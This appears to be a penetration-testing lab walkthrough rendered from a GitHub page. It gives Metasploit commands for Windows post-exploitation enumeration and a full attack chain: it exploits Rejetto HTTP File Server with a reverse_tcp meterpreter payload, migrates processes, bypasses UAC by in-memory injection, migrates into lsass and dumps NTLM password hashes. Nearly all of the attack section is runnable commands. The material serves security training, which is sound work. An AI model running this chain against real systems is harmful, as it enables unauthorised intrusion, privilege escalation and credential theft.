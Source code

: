 ```shell
# This information is very useful as it can be used to search for vulnerabilities in the installed programs that can be leveraged or exploited to elevate your privileges or reveal important information. It also gives you an idea as to what this system is being used for.

# 5) We can utilize the enum_computers module to enumerate a list of computers connected to the same LAN that the target is a part of.
use post/windows/gather/enum_computers

# 6) We can also enumerate a list of shares by using the enum_shares module.
use post/windows/gather/enum_shares

# Other modules:
post/windows/gather/enum_av # Windows Installed AntiVirus Enumeration
post/windows/gather/enum_patches # Windows Gather Applied Patches
```

### 8.2. Windows Privilege Escalation: Bypassing UAC

Your task is to fingerprint the application using the tools available on the Kali machine and exploit the application using the appropriate Metasploit module. And then, bypass UAC using the Memory Injection Metasploit local exploit module.

**Objective:** Gain the highest privilege on the compromised machine and get administrator user NTLM hash.

```shell
# The target system has a vulnerable version of the Rejetto HTTP File Server running on port 80 that can be exploited through the use of a Metasploit module.
service postgresql start && msfconsole
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS <target_IP>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit

getuid
sysinfo
# We can observe that we are running as an admin user. Migrate the process in explorer.exe. First, search for the PID of explorer.exe and use the migrate command to migrate the current process to the explorer process.
pgrep explorer
migrate <process_ID>
getsystem
# We can observe that we do not have permission to elevate privileges.
# Get a windows shell and check if the admin user is a member of the Administrators group.
shell
net localgroup administrators
background
```

**Run UAC Bypass In-Memory Injection module.**

```shell
use exploit/windows/local/bypassuac_injection
set SESSION 1
set TARGET 1
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
# Please note the explorer.exe arch is x64 bit, so later when we perform UAC bypass, we have to use x64 based meterpreter payload.
getsystem
getuid

ps -S lsass.exe
migrate <process_ID>

hashdump
```